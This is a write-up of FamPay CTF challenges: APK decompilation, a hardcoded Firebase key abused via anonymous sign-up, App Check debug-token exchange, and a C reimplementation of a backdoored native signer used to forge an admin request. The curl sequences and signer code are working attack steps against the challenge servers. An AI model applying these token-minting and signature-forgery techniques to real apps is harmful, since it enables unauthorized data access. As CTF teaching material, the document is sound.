# FamCtfWriteup# FamPay CTF — my write‑ups

These are my solves from the FamPay CTF — the challenges are (still) live at **https://ctf.fampay.co/** if you want to try them yourself before reading on. I've written these the way I actually experienced them — including the stuff that *didn't* work and the moments I went down the wrong path. I've kept the whole journey in on purpose; the dead ends and the "oh wait" moments are the point, not an appendix. So these read start‑to‑finish rather than jumping straight to the answer. That said, I know the full journey can run long — so every challenge has a **"⏩ Jump to what actually worked"** link at the top if you just want the solve and want to skip my detours.

Setup: I worked in an Ubuntu/Linux shell, so everything below is standard Linux tooling — `grep`/`rg` (ripgrep), `strings`, **jadx** (pron. "jay‑dex") for the Java decompile, Ghidra for the native `.so`, radare2 for quick byte/string dumps, and `curl`/Postman for the HTTP work. I also leaned on an LLM as a pair‑analyst to speed up reading big chunks of decompiled C and to sanity‑check my reasoning — the decisions, the verification, and the "wait, that's a backdoor" moments were mine. Figured I'd just say that plainly.

One note on the flags: I've left the actual values out. The challenges are still live, so I'd rather not give anyone a copy‑paste shortcut past them — that didn't feel fair to people still playing. What I *have* tried to do is show *how* each flag comes out, which is the part worth sharing anyway. If you want the flags themselves, they're a short hop away at the link above. 🙂

Live credentials, tokens, and the instance IP are redacted for the same reason.

**The challenges**

1. [The Library](#01--the-library) — Static Analysis (100)
2. [The Database](#02--the-database) — Firebase (200)
3. [The Vault](#03--the-vault) — Firebase (300)
4. [The Endpoint](#04--the-endpoint) — Dynamic Analysis (400)
5. [The Vault Door](#05--the-vault-door) — Web (350)
6. [The Cloud](#06--the-cloud) — Cloud (500)

Everything started from one Android app (`fam-ctf.apk`) plus a cloud box that got spun up later.

---

## Setup — the tools

> **Already have a reversing + web setup? [⏭ Skip to 01 — The Library](#01--the-library).** This bit is only so someone starting fresh on Ubuntu can follow along. (For my own run these were already installed — I'm not pretending I set them all up on the spot for the CTF.)

Across the six challenges:

| Tool | What I used it for |
|---|---|
| **jadx** | decompile the APK's Java/Kotlin |
| **Ghidra** | decompile the native `libfam.so` |
| **radare2** (`r2`) | quick disassembly / byte + string dumps of the `.so` |
| **binutils** (`strings`, `nm`) | pull strings/symbols out of the `.so` |
| **ripgrep** (`rg`) / **grep** | search the decompiled tree |
| **curl** | most of the HTTP / REST work |
| **Postman** | sending + inspecting the Firebase/REST requests (02, 03) and the cloud recon (06) |
| **Burp Suite** | intercept + replay the web challenge (05) |
| **jwt.io** | decode JWTs, and encode the `alg:none` token (05) |
| **hashcat** | *attempted* HS256 secret cracking in 05 — turned out to be unnecessary |
| **AWS CLI** | SigV4 signing / presigned URLs in the cloud challenge (06) |
| **Python / Node** | small one‑off scripts (debug‑token decoder, the hash port) |

Install on Ubuntu:

```bash
# base: search, binutils, unzip, JDK (jadx/ghidra need it), curl, hashcat, python, r2, aws
sudo apt update
sudo apt install -y ripgrep binutils unzip default-jdk curl hashcat python3 python3-pip radare2 awscli

# jadx
wget https://github.com/skylot/jadx/releases/download/v1.5.1/jadx-1.5.1.zip
unzip jadx-1.5.1.zip -d ~/jadx
echo 'export PATH="$PATH:$HOME/jadx/bin"' >> ~/.bashrc && source ~/.bashrc

# ghidra (needs JDK 17+/21)
wget https://github.com/NationalSecurityAgency/ghidra/releases/download/Ghidra_11.3.1_build/ghidra_11.3.1_PUBLIC_20250219.zip -O ghidra.zip
unzip ghidra.zip && ~/ghidra_*/ghidraRun
```

**Postman** (postman.com) and **Burp Suite** Community edition (PortSwigger) are separate downloads; **jwt.io** is just a website.

> Each challenge also shipped with a **hint**, and honestly the hints did a lot of the steering — I've noted where each one pointed me, and left a spot for the hint screenshot in every section.

---

## 01 — The Library
**Static Analysis · 100**

> **In a hurry?** [⏩ Jump to what actually worked](#lib-solution).

> 📌 **The brief.** *"Many times devs put secrets in code and forget to remove. Can you find that secret??"* *(screenshot: `img/01-hint.png`)* — the sharper hint for this one was planted inside the app itself (see below).

I downloaded the challenge APK (`fam-ctf.apk`) and decompiled it with jadx:

```bash
jadx fam-ctf.apk -d fam-src             # decompile Java + unpack resources
```

**Reading around the app.** With everything unpacked, I started poking through the decompiled sources and resources to get a feel for the app. In `res/layout/activity_main.xml` there was a line that was obviously planted there on purpose:

> "Every compiled secret leaves a trace. Not all libraries are for reading."

That's a hint — and a fairly direct one, in hindsight. *Compiled* and *libraries* together point away from the Java and toward the native `.so` files (the ones jadx doesn't really show you). I noted it and kept exploring.

**The keyword sweep (that found nothing).** My first instinct was still to just search everything for anything interesting — ripgrep and grep across the decompiled tree:

```bash
rg -i -e flag -e ctf -e fam -e secret -e password -e token fam-src/
# ...also tried a bunch of generic token-ish keywords
```

Honestly, nothing useful came back for this one. I was grepping for the *idea* of a secret and getting noise.

<a id="lib-solution"></a>
**The reframe.** Then it clicked that CTF flags have a predictable shape — `SOMETHING{...}`. Instead of hunting for "secret‑sounding" words, I should hunt for the **format**. For this CTF the prefix is `FAM`. And that `activity_main.xml` hint was still nagging me — *not all libraries are for reading* — so the app's own native library, `libfam.so` (which I'd already seen had `fam` strings in it), was the obvious place to point `strings`. A custom `.so` is always more interesting than the stock ones. So I pointed `strings` straight at it and grepped for the prefix:

```bash
strings fam-src/resources/lib/arm64-v8a/libfam.so | grep -i FAM
# FAM{...}   <- the flag printed right here (redacted)
```



There it was — a single `FAM{...}` line, and the flag text itself was a little wink at the technique I'd just used. That `activity_main.xml` hint had been pointing right here the whole time: the secret lived *in the compiled library*, not in the Java. In Ghidra you can confirm it's the string handed back by the `getSecretFromNative` JNI function.

**Flag:** redacted — go pull it yourself 🙂

**Lesson for next time:** don't grep for the *meaning* of a secret (`password`, `token`, …) — grep for its **format** (`FAM{`, or just the prefix), and run `strings` over any custom `.so` early. The stock libraries (`libc++_shared.so`, etc.) are noise; the app's own tiny lib is where to look.

---

## 02 — The Database
**Firebase · 200**

> **In a hurry?** [⏩ Jump to what actually worked](#db-solution).

> 📌 **The brief.** *"The door is open to anyone. You don't need a name to enter, but the room still has a lock."* → *hint: identity is optional here.* *(screenshot: `img/02-hint.png`)* — in hindsight that's a near‑perfect description of anonymous auth: no *name* needed, but you still need *a* token.

Same APK, different corner of it. This one sent me reading the *behaviour* of the app rather than its strings.

**Finding my way to the right file.** While grepping around in the first challenge, I kept seeing paths like `com/ctf/fam/...` scroll past in the results — that's the app's own package, so the real code lives under `fam-src/sources/com/ctf/fam/`, and the obvious entry point is `MainActivity.java`. Handily, unlike the native `.so` stuff I'd hit later, `MainActivity` decompiled into clean, readable code I could just go through top to bottom.

**Where the trail started.** In there was a set of `verifyFlag1` / `verifyFlag2` / `verifyFlag3` methods. `verifyFlag2` was the interesting one — it didn't check anything locally, it called something named `signInAnonymouslyAndVerifyFlag2`:

```bash
grep -n -A40 "signInAnonymouslyAndVerifyFlag2" fam-jadx-out/sources/com/ctf/fam/MainActivity.java
```

The name alone basically narrates the intended path: the app **signs in to Firebase anonymously** and then reads the flag from a database. So unlike The Library, this flag isn't a string in the binary — it lives server‑side, in Firebase, behind an auth check that anonymous users apparently satisfy. `signInAnonymously()` is a standard Firebase call, so I could look up exactly how to replay it over plain REST.

**The API key — and a wrong guess I'd made earlier.** I actually already had the Firebase Web API key from challenge 1. Back then, during my format sweep (the `grep -rnoIE` for `{...}`‑shaped strings), I'd turned up a hardcoded `AIza…` key and for a moment thought *that* might be the flag — a secret‑looking constant baked into the app. Then it clicked that a flag has the shape `FAM{...}`, not a bare API key — which is exactly the realisation that pushed me to search by *format* and find The Library's flag. But the key stuck in my head as "useful later." This was later. I pulled it again, straight from the source:

```bash
cat fam-src/sources/com/ctf/fam/MainActivity.java | grep -i 'API_KEY'
# AIza…   (the Firebase Web API key, hardcoded)
```

<a id="db-solution"></a>
**The realisation.** The rule here clearly wasn't "open to the public" — a read needs *some* identity — but it also wasn't tied to a *specific* user; any signed‑in principal works, and anonymous counts. Firebase's REST API lets me mint an anonymous user with nothing but that Web API key — no app, no device. So: create an anonymous user → take its ID token → read the database path (also visible in `MainActivity`: a `…/flag.json` node on the project's Realtime Database) with `?auth=<token>`.

```bash
# 1) mint an anonymous Firebase user -> returns an idToken
curl -s -X POST \
  "https://identitytoolkit.googleapis.com/v1/accounts:signUp?key=<FIREBASE_API_KEY>" \
  -H "Content-Type: application/json" \
  -d '{"returnSecureToken":true}'
# -> { "idToken": "<ID_TOKEN>", "localId": "...", ... }   (provider: anonymous, aud: fam-ctf)

# 2) read the Realtime Database node with that token
curl -s "https://fam-ctf-default-rtdb.asia-southeast1.firebasedatabase.app/flag.json?auth=<ID_TOKEN>"
# -> "FAM{...}"   (redacted)
```



The database handed the flag straight back. Note it's a **Realtime Database** (`…-rtdb.…firebasedatabase.app/…​.json`), not Firestore — that distinction is exactly what separates this one from The Vault. The whole lock was "must be authenticated," and anonymous counts as authenticated, so the lock did essentially nothing against anyone willing to call `accounts:signUp` directly.

**Flag:** `FAM{...}` *(from the `flag.json` response)*

**Lesson for next time:** read the app's *flow*, not just its strings — a method name like `signInAnonymouslyAndVerifyFlag2` tells you the intended attack. And a Firebase rule of `auth != null` is not real protection: anyone can self‑issue an anonymous token from the Web API key alone, so "requires sign‑in" ≠ "requires *your* sign‑in". (Contrast with [The Vault](#03--the-vault), where the extra wall was App Check, not just auth.)

---

## 03 — The Vault
**Firebase · 300**

> **In a hurry?** [⏩ Jump to what actually worked](#vault-solution).

> 📌 **The brief.** *"The vault trusts no one it hasn't met. But the app already made introductions. Something in the code proves who you are."* → *hint: the token is hiding in plain sight.* *(screenshot: `img/03-hint.png`)* — "the app already made introductions" = the App Check attestation; "the token… in plain sight" = the debug token baked into the code.

Same Firebase project, one wall higher. Reading `MainActivity.java` again (still clean, readable code), the flag‑3 path went through `FirebaseAppCheck.getInstance()` calls — so on top of auth, this data is guarded by **Firebase App Check**: every request has to carry an `X-Firebase-AppCheck` header proving it came from the genuine app. A raw curl can't produce that... unless the app shipped a shortcut.

**A false start.** Fresh off challenge 2, my first instinct was to pattern‑match — I tried reading a `/vault.json` node on the same Realtime Database with an App Check header. That wasn't where flag 3 lived; the decompiled code eventually pointed me at a **Firestore** document instead. Noted the detour and moved on.

**Into the native lib — and a Ghidra workflow note.** The App Check wiring (the debug token especially) lived in `libfam.so`, so I opened it in Ghidra: *File → Import File →* `fam-src/resources/lib/arm64-v8a/libfam.so`, OK, analyze. One honest aside: running Ghidra launched from the terminal, the UI was sluggish for me — scrolling overshot, clicking tabs lagged — so I used Ghidra's **Export** to dump the decompilation to a single `.c` file and then read and searched *that* in VS Code. Same code, far easier to move around:

```bash
code ~/fam-decompiled.c
```

(If Ghidra's UI is fighting you, that export‑and‑read‑in‑an‑editor trick is worth knowing — you trade the interactivity for one fast, greppable file.)

**The debug token.** Among the native functions, `getDebugToken` built its result from a hardcoded constant blob (Ghidra named it `DAT_00103…`) by de‑obfuscating it — the same XOR scheme I later pinned down fully in [The Endpoint](#04--the-endpoint). I pulled the constant's bytes and ran them through a small decoder I wrote (you could do the same XOR in a tool like CyberChef), and out came a UUID — the **App Check debug token**. Debug tokens are a developer convenience: they let a dev machine mint *real* App Check tokens without the usual Play Integrity hardware check. So anyone holding one can do exactly that.

To be sure the token wasn't itself feeding some *second* hidden blob, I swept the exported C for all the related constants:

```bash
grep -n "DAT_00103" fam-decompiled.c | sort -u -t_ -k2
```

Nothing new turned up — that token was the end of the thread.

<a id="vault-solution"></a>
**How the token becomes a header.** Reading how the app actually uses it (`DebugTokenAppCheckProvider.java` and `DebugTokenAppCheckProviderFactory.java`) showed the exchange URL being assembled:

```java
// DebugTokenAppCheckProvider.java (paraphrased)
url = "https://firebaseappcheck.googleapis.com/v1/projects/"
    + projectNumber + "/apps/" + appId + ":exchangeDebugToken";
```

The `projectNumber`, `appId`, and the API key were all hardcoded back in `MainActivity.java` (same place I'd found the API key in challenge 2). Plug those in, and the chain is: **debug token → exchange it for an App Check JWT → use that JWT to read Firestore.**

```bash
# debug token -> App Check JWT
curl -s -X POST \
  "https://firebaseappcheck.googleapis.com/v1/projects/<PROJECT_NUMBER>/apps/<APP_ID>:exchangeDebugToken" \
  -H "Content-Type: application/json" \
  -H "X-Goog-Api-Key: <FIREBASE_API_KEY>" \
  -d '{"debug_token":"<DEBUG_TOKEN_UUID>"}'
# -> { "token": "<APP_CHECK_JWT>", "ttl": "3600s" }
```

Decoding that returned JWT (it's just base64 JSON) confirms the wiring — `provider: "debug"`, plus the project number and app id. That `provider:"debug"` is the tell: it basically announces that a replayable debug token exists somewhere.

**The document path.** The decompiled code also showed `collection("flags").document("flag3")` — so the data is a Firestore document at `flags/flag3`. Firestore's public REST API has a `projects/…/databases/{db}/documents/{path}` read ([docs: `projects.databases.documents.get`](https://firebase.google.com/docs/firestore/reference/rest/v1/projects.databases.documents/get)). Two small gotchas I hit assembling the URL:

- The `{project}` segment wants the **project id** (the name, `fam-ctf`), not the numeric project number. I tried the number first and it didn't take; the name worked.
- The default database id is literally `(default)` — parentheses included — so I didn't have to discover it; I just used `(default)` and it worked.

```bash
curl -s \
  'https://firestore.googleapis.com/v1/projects/fam-ctf/databases/(default)/documents/flags/flag3' \
  -H 'X-Firebase-AppCheck: <APP_CHECK_JWT>'
```



**Flag:** `FAM{...}` *(from the Firestore response)*

**Lesson for next time:** `provider:"debug"` on an App Check token means a replayable debug token is baked in somewhere — usually the native lib — and `exchangeDebugToken` turns it into a real attestation JWT. Also: don't assume the next flag lives in the same store as the last one (my `/vault.json` detour) — let the decompiled code tell you whether it's Realtime Database or Firestore.

---

## 04 — The Endpoint
**Dynamic Analysis · 400**

> **In a hurry?** [⏩ Jump to what actually worked](#ep-solution). The reversing story in between is the point, though.

> 📌 **The hint.** *(screenshot: `img/04-hint.png`)* — this is also where the endpoint path came from.

This was my favourite, and the one I almost talked myself out of. They gave both an **endpoint and the APK**, which was the tell: the answer isn't on the wire alone, you have to go into the app. The brief:

> "The server only trusts what it can verify. Intercept. Modify. But can you keep it honest? — only admin has clearance."
> `https://ctf.fampay.co/api/check`

**Poking it blind.** A GET returned `501 Unsupported Method` (so it's POST‑only). POST with junk → `400 invalid json`. POST with `{}` → `403 {"error":"access denied"}`. So: POST, JSON body, and it gates on some identity. "Only admin has clearance" said the rest.

**Wrong turn #1 — throwing tokens at it.** Before I understood the gate, I tried the obvious auth shapes: an `Authorization: Bearer` header carrying the hardcoded values I already had from the APK (the debug token, the Google/Firebase API key), and the various ID / App Check tokens I'd minted in the earlier challenges. None of them were what this endpoint wanted — it wasn't a bearer‑token gate at all.

**Wrong turn #2 — grepping the Java for the signing logic.** `/api/check`, `HMAC`, `sign`, `secret` — nothing but Kotlin stdlib noise. That emptiness, plus The Library's "it's in the native lib" lesson, told me where to actually look.

**Into the native lib (with radare2).** I opened `libfam.so` in **radare2** and worked through the exports. `libfam.so` exports four JNI functions:

```
getSecretFromNative   computeSignature   getUsernames   getDebugToken
```

and the Kotlin showed me how `computeSignature` is used (`MainActivity.java`):

```java
String username = spinner.getSelectedItem().toString();
String body = "{\"username\":\"" + username + "\"}";
String sig  = computeSignature("POST", "/api/check", body);
// ...sends body + sig via HttpURLConnection
```

So the request is signed over method, path, and body. The *"keep it honest"* line started to make sense: the body is signed, so you can't just tamper with it.

**Two obfuscated blobs.** Both `getUsernames` and `getDebugToken` decode byte tables by XORing with a 19‑byte key (at `0x34a2`) and `0xAA`:

- the usernames came out as `guest, player1, h4x0r, anonymous, n00b` — and crucially **`admin` isn't one of them.** The app literally can't let you *be* admin; you have to forge it.
- `getDebugToken` decoded to a UUID (that's the App Check debug token I reused in The Vault).

**The signing function.** The JNI `computeSignature` (`FUN_00106998`) joins the three args with `|` → `POST|/api/check|<body>` → and feeds that into the hash routine `FUN_00105eac`. This is the part where I leaned on AI the most: the function is a wall of hex‑named locals and bit‑twiddling, so I pulled the Ghidra decompilation into a `.c` file (same export trick as in [The Vault](#03--the-vault)) and worked through it line by line *with* an LLM — it flagged the recognizable constants and the one odd branch; I confirmed what each piece actually was.


The magic constants gave the algorithm away as soon as I searched them:

- `0xcbf29ce484222325` + `0x100000001b3` → **FNV‑1a**
- `0xff51afd7ed558ccd` + `0xc4ceb9fe1a85ec53`, shift 33 → **MurmurHash3 `fmix64`**
- output = four 64‑bit state words as `%016llx` → a 64‑char hex string


And then this, near the end, which made me stop and re‑read it three times:

```c
if (fnv == 0xdcc67eca15a7c732)        // FNV-1a of the whole input
    state[2] ^= 0xdeadbeefcafebabe;   // quietly corrupt the 3rd word
```

![the backdoor branch in the exported decompilation (local_a0 is the FNV accumulator; local_40[2] is the 3rd state word)](img/04-backdoor.png)

A hardcoded magic compared against a hash of the *input* is a trap for one specific input — once that branch was pointed out, its shape was unmistakable. I filed it away.

**Porting it, and verifying without the original.** I reimplemented the hash as a small standalone C program (I first tried a JNI harness that loaded the real `.so`, but Android‑lib dependency hell — bionic vs glibc symbol versioning — made that more trouble than it was worth, so I just ported the function). It takes `method path body`, joins them with `|`, and prints the 64‑hex signature:

```c
// sign2.c — port of the native signer (FUN_00105eac)
#include <stdio.h>
#include <string.h>
#include <stdint.h>
static uint64_t fmix64(uint64_t x){            // MurmurHash3 finalizer
  x=(x^(x>>33))*0xff51afd7ed558ccdULL;
  x=(x^(x>>33))*0xc4ceb9fe1a85ec53ULL;
  return x^(x>>33);
}
static const uint8_t KEY[19]={0xec,0xeb,0xe7,0xf5,0xd9,0x99,0xc9,0xd8,0x99,0xde,
                              0xf5,0xc1,0x99,0xd3,0xf5,0x98,0x9a,0x98,0x9c};
int main(int argc,char**argv){
  char in[2048]; snprintf(in,sizeof in,"%s|%s|%s",argv[1],argv[2],argv[3]);
  uint64_t s[4]={0x6c62272e07bb0142ULL,0x62b821756295c58dULL,
                 0x34a45d6b4dc3ffd4ULL,0x1c97e9b06437a27aULL};
  uint64_t fnv=0xcbf29ce484222325ULL; size_t len=strlen(in);
  for(size_t i=0;i<len;i++){
    uint8_t ch=(uint8_t)in[i]; int ii=(int)i;
    s[i&3]^=(uint8_t)(ch^KEY[i%19]^0xaa);       // XOR key table + 0xAA
    s[(ii+1)&3]+=s[i&3];
    s[(ii+2)&3]=fmix64(s[(ii+2)&3]);
    s[(ii-1)&3]^=s[(ii+1)&3]*0x517cc1b727220a95ULL;
    fnv=(fnv^ch)*0x100000001b3ULL;              // FNV-1a of the whole input
  }
  for(int bc=0;bc<4;bc++)for(int c0=0;c0<4;c0++)s[c0]=fmix64(s[c0]^s[(c0+1)%4]);
  if(fnv==0xdcc67eca15a7c732ULL)s[2]^=0xdeadbeefcafebabeULL;   // <-- THE BACKDOOR
  printf("%016llx%016llx%016llx%016llx\n",
    (unsigned long long)s[0],(unsigned long long)s[1],
    (unsigned long long)s[2],(unsigned long long)s[3]);
  return 0;
}
```

The question was: is my port actually correct? I couldn't easily run the real `.so`. So I used the server itself as an oracle.

First the header name — I fuzzed a batch of likely names and let the server tell me:

```
{"error": "X-Signature verification failed"}
```

It named the header for me: `X-Signature`. Then the test that made everything click — sign the **legit** usernames and compare to `admin`:

```
guest     -> {"error": "access denied"}            # signature VERIFIED (just not admin)
player1   -> {"error": "access denied"}
h4x0r     -> {"error": "access denied"}
anonymous -> {"error": "access denied"}
n00b      -> {"error": "access denied"}
admin     -> {"error": "X-Signature verification failed"}   # only admin fails
```



That's the "aha". My hash is *right* — five valid users verify fine. Only `admin` fails. Which means the native code is **deliberately producing a bad signature for admin** — exactly the backdoor I'd spotted. The FNV of the admin input hits the magic, flips `state[2]`, and poisons the output.

**Confirmed:**

```
FNV("POST|/api/check|{\"username\":\"admin\"}") == 0xdcc67eca15a7c732   # magic, hit
native  (backdoored): 2c64...a05b00ea3d4d1443...952188   # what the app sends -> rejected
honest  (no flip)   : 2c64...7ef6be05f7b3aefd...952188   # what the server wants
                              ^^^^ only the 3rd word differs (XOR deadbeefcafebabe)
```

So the app always sends the *dishonest* signature for admin, and the server checks the *honest* one. "Can you keep it honest?" = compute the signature **without** the backdoor flip. Once I read it that way the whole challenge title was basically the solution.

**The error ladder (what the server told me, in order).** I tried a lot before the win, and the server's wording was a breadcrumb trail the whole way — each message narrowed it down:

| Attempt | Response |
|---|---|
| `GET /api/check` | `501 Unsupported Method` |
| `POST` with a malformed body | `400 invalid json` |
| `POST {}` (no signature) | `403 {"error":"access denied"}` |
| `POST` + `Authorization: Bearer` (debug token / API key / earlier ID tokens) | still gated — it's not a bearer‑token endpoint |
| `POST` + a *wrong* `X-Signature` | `{"error":"X-Signature verification failed"}` ← named the header for me |
| `POST` + a valid **user** signature (e.g. `guest`) | `{"error":"access denied"}` ← sig VERIFIED, just not admin |
| `POST` + the **dishonest admin** signature (app's) | `{"error":"X-Signature verification failed"}` ← the backdoor, live |
| `POST` + the **honest admin** signature | `{"flag":"FAM{...}","message":"Welcome, admin."}` ✅ |



<a id="ep-solution"></a>
**✅ Solution** — honest signature + admin body. The signer above *includes* the backdoor, so running it on `admin` gives the dishonest signature the app sends (which the server rejects). The honest one is the same code with the backdoor line deleted:

```bash
gcc sign2.c -o sign2
# honest version: strip the one backdoor line, rebuild
sed '/dcc67eca15a7c732/d' sign2.c > sign_honest.c
gcc sign_honest.c -o sign_honest

SIG=$(./sign_honest POST /api/check '{"username":"admin"}')
curl -s -X POST 'https://ctf.fampay.co/api/check' \
  -H 'Content-Type: application/json' \
  -H "X-Signature: $SIG" \
  -d '{"username":"admin"}'
```


**Flag:** `FAM{...}` *(paste the admin response)*

**Lessons for next time:**
- No crypto in the Java? Assume it's native; start at the `Java_*` exports and follow only the calls that eat your input.
- Identify algorithms by their constants — a quick search turns magic numbers into "oh, that's FNV / Murmur".
- To validate a reversed hash without the binary, sign a *known‑good* input and let the server's error wording (`verification failed` vs `access denied`) do the classification. That single test both proved my port and exposed the backdoor.

---

## 05 — The Vault Door
**Web · 350**

> **In a hurry?** [⏩ Jump to what actually worked](#vd-solution). But the flailing‑then‑facepalm middle is the honest, useful part of this one.

> 📌 **The brief.** *"NexaVault is an internal credential management portal used by engineering teams. Only **administrators** can open the Vault — a restricted area holding classified project data. You have been given access to create an account. That's it."* — portal at `https://ctf.fampay.co/famctf/`. *(screenshot: `img/05-hint.png`)* There was no separate "hint:" line on this one; re‑reading *this* brief — *"create an account, that's it"* — is what pulled me out of the rabbit holes below (it's about escalating the account/token you're handed, nothing else).

First **web‑only** challenge — they gave a **web URL** instead of an APK, so there was nothing to decompile. For a web target the right tool is an intercepting proxy, so I ran everything through **Burp Suite**.

